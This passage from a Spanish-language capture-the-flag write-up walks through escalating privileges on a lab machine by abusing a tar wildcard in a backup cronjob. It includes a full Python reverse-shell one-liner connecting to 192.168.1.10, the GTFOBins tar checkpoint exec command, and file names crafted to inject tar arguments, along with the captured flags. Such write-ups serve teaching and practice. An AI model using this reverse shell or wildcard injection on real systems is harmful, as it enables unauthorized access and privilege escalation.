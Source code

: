 ![](https://i.imgur.com/jxmdidt.png)

`flag{PinTX0$}`

Ahora continuamos con nuestra escalada de privilegios. Revisando el comando utilizado para hacer el backup, vemos que este cronjob es vulnerable al utilizar el wildcard * en su ejecución, lo que nos permitirá crear una shell reversa impersonando al usuario que ejecute el cronjob, en este caso `user`.

![](https://i.imgur.com/2rjAWub.png)

Gracias a la web [GTFObins](https://gtfobins.github.io/gtfobins/tar/#limited-suid) podemos encontrar un modo de explotar este comportamiento:

`tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

El problema aquí es que debemos crear ficheros cuyo nombre se corresponda con los parámetros que queremos añadir al comando tar, y el caracter `/` no está permitido como nombre de fichero. Para saltarnos esta restricción, creamos un script llamado `paco.sh` (nos gustan los nombres originales) que en su interior contenga el comando para lanzar una shell reversa hacia nuestra máquina:

`python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.10",1235));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")')`

Creamos también los ficheros que nos permiten explotar la vulnerabilidad, cuyos nombres sean `--checkpoint=1` y `--checkpoint-action=exec='sh paco.sh'` respectivamente. De esta forma conseguiremos una reverse shell, impersonando al usuario `user` cuando se ejecute el cronjob de nuevo:

![](https://i.imgur.com/0DgP6kz.png)

Recibiendo la conexión en nuestra máquina host:

![](https://i.imgur.com/Zium5LA.png)

Ahora, si nos vamos al /home del usuario, podemos obtener la flag de user:

![](https://i.imgur.com/GNCYMFI.png)

`flag{TxAp3l4S}`

Haciendo ls, vemos un fichero interesante creado por root en el /home del user, el fichero test:

![](https://i.imgur.com/EFk9WSj.png)

Ejecutando el comando `file` vemos que se trata de un binario ejecutable de 64 bits.

![](https://i.imgur.com/fO8YdRa.png)

Ejecutando el comando `strings` sobre el ejecutable, obtenemos la última flag:

![](https://i.imgur.com/9bzKguk.png)

`flag{*Gugg3nh3im-BilbA0*}`


## Parte 4 (Bonus) - Reversing del binario con Ghidra y explotación
